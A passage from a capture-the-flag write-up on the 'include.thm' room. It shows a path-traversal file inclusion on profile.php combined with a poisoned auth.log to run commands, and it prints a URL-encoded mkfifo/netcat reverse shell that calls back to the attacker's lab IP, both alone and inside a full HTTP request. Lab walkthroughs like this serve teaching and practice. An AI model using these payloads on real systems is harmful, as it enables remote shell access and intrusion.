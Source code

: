 From here, you can either list the contents of the `/var/www/html/` directory from Burp repeater, or you can try to get a reverse shell and browse around a bit easier. The first time I did this room, I did it entirely in Burp, but for the purpose of this writeup, I'll test the reverse shell method.

Using the following URL-encoded command I was able to get a reverse shell. I used [revshells.com](https://revshells.com) to generate this.

```console
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.2.113.252%209001%20%3E%2Ftmp%2Ff
```

```console
GET /profile.php?img=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//var/log/auth.log&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.2.113.252%209001%20%3E%2Ftmp%2Ff HTTP/1.1
Host: include.thm:50000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://include.thm:50000/dashboard.php
Cookie: PHPSESSID=gbvb62jo9gnq3vbbknsie463i7
X-PwnFox-Color: orange
Priority: u=4


```

![](../images/screenshots/Pasted%20image%2020240607083339.png)

Here is the "mystery" text file that will give us flag 2.
